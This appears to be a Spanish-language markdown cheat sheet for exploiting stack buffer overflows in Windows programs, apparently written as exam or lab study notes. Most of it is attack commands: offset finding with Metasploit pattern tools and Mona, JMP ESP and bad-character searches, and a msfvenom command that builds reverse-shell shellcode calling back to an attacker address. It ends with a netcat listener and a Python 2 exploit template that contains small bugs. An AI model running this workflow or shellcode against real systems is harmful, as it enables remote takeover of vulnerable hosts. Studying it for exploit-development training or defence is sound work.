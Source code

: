 # Buffer Overflow

## Desensamblar un archivo .exe 

```shell
objdump -d -Mintel goodpwd.exe > goodpwd_disassembled.txt
```


## Algunas Operaciones Inseguras
- strcpy
- vsprintf
- strcat
- printf
- gets / fgets
- memcpy
- scanf/ fscanf

## Calculado el offset
### Paso 1 
#### Generar un payload
con `msf-pattern_create`, tan grande como el numero que especifiquemos
```shell
msf-pattern_create -l 2000
```

### Paso 2
#### Copiamos el payload generado
y lo usamos en el input

### Paso 3 
#### Calcular el offset

por medio de msf-pattern_offset
```shell
msf-pattern_offset -q 30684239 
```

## Uso de Mona
### Configuramos el directorio de trabajo para Mona
```shell
!mona config -set workingfolder C:\somefolder\%p
```
### Para crear un payload con Mona 
```shell
!mona pc 100
```
### Para calcular el Offset
```shell
!mona po 61413761
```
Una vez que el EIP es sobreescrito podemos ejecutar:
```shell
!mona suggest
```
Mona nos pedirá que proporcionemos información sobre la carga útil y creará automáticamente un módulo Metasploit para explotar la aplicación.
### Modulos que no tengan ASLR activado 
```shell
!mona noaslr
```
### Verificar los modulos disponibles
```shell
!mona modules
```
### Saltar a un registro
especificamos el registro con -r
```shell
!mona jmp -r esp
```
### Especificar un modulo o mas de uno
```shell
!mona jmp -r esp -m kernel
```
o de la misma manera se puede usar para buscar con el opcode especifico:
```shell
!mona find -s "\xff\xe4" -m kernel
```
donde `xFFxE4 = JMP ESP`

Una vez que se encuentra la direccion de la instruccion se puede continuar

## Identificar los BadChars
### Lista de todos los posibles badchars
```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
### Identificar batchars con mona
Previamente debemos tener un directorio de trabajo creado y usar 
```
!mona bytearray
```
Con lo cual se creara un archivo `bytearray.bin` en la carpeta de nuestro directorio de trabajo.
Luego ejecutamos el payload mandando los batchars, y comparamos usando 
```shell
!mona compare -f C:\Users\User\Desktop\carpeta\bytearray.bin -a 0187A128
```
donde especificamos la ruta del archivo `.bin` y con el parametro `-a` especificamos la direccion del `ESP`. Lo siguiente es quitar el resultado de badchar detectado de nuestro payload y crear otro `bytearray.bin` con el siguiente comando
```shell
!mona bytearray -cpb "\x00"
```
Donde especificamos los badchar que no queremos que se incluya en el nuevo `bytearray.bin`

## Generar la shellcode
### Ejemplo de Shellcode
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.15 LPORT=4646 -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai EXITFUNC=thread -f c
```
Donde especificamos la aqrquitectura del sistema, los badchars que no queremos que se incluyan en el shellcode.
## Para escuchar el puerto podemos usar 
```shell
rlwrap nc -nlvp 446
```
## Alternativa al uso de NOPs en la shellcode
El desplazamiento de pila es la alternativa al uso de NOPs, para ello utilizamos `msf-metasm_shell`, ejemplo recorrer en 10 unidades
```
sub esp,0x10
```
Lo cual nos dara como resultado el siguiente opcode
```
\x83\xEC\x10
```

## Plantilla de exploit en python2
```python
import socket
import time

host = "172.16.169.140"
port = 9999

junkbytes = "A"*524
eip = "\xf3\x12\x17\x31"
esp = "C"*700
nops = "\x90"*20
badchars = "\x00\x0A"
shellcode = "\a0\x0d..."


buffer = junkbytes + eip + nops + esp

while true:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.recv(1024)
        s.send(buffer+"\r\n")
        message = s.recv(1024)
        print(message)
        print("[+] Payload sent with length: " + str(len(buffer)))
        s.close()
        # junkbytes += ("A"*100)
    except Exception as ex:
        print "\n !!! Error en la conexion !!!\r\n" + str(ex)
        sys.exit(1)


```